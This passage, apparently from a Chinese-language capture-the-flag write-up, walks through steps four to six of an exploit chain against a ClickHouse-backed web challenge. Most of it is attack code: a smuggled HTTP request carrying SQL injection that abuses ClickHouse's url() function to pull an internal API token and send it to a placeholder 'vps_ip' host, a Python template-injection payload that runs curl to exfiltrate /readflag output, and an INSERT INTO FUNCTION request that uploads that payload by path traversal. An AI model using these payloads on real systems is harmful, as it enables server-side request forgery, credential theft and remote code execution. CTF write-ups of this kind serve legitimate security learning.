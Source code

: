 这样子即可得到 token 的值

```bash
POST /query  HTTP/1.1/../../api/ping HTTP/1.1
   Host: 192.168.23.137:8013
   Content-Length: 176
   Pragma: no-cache
   Cache-Control: no-cache
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Mobile Safari/537.36
   Origin: http://192.168.23.137:8013
   Content-Type: application/x-www-form-urlencoded
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://192.168.23.137:8013/
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Connection: close

   id=1 and (SELECT * FROM url('http://vps_ip:port/?a='||hex((select * FROM url('http://backend:8001/api/token', 'TabSeparatedRaw', 'x String'))), 'TabSeparatedRaw', 'x String'));
```

[![](assets/1706957701-6526d61aa169aa74cf6d5a1702ade41e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202175931-c28d38be-c1b1-1.png)

5、拿到`Token`的值，可以通过`/api/upload`接口进行文件上传并且目录穿越到`templates`目录，实现`SSTI`。

```bash
$code:  
        __import__('os').system('curl http://vps_ip:port/?flag=`/readflag | base64`')
```

6、这样还是需要通过`ClickHouse`来请求`/api/upload`接口，完成文件的上传，通过`INSERT INTO FUNCTION 是用于将数据插入到自定义函数中的语法`。

```bash
INSERT INTO FUNCTION url('http://backend:8001/api/upload', 'TabSeparatedRaw', 'x String', headers('Content-Type'='multipart/form-data; boundary=----test', 'X-Access-Token'='36044d6e99708446ae269b0398fee3ab')) VALUES ('------test\r\nContent-Disposition: form-data; name="myfile"; filename="../templates/test.html"\r\nContent-Type: text/plain\r\n\r\n$code:\r\n    __import__(\'os\').system(\'curl http://ip:port/?flag=`/readflag | base64`\')\r\n------test--');','TabSeparatedRaw','x String')
```

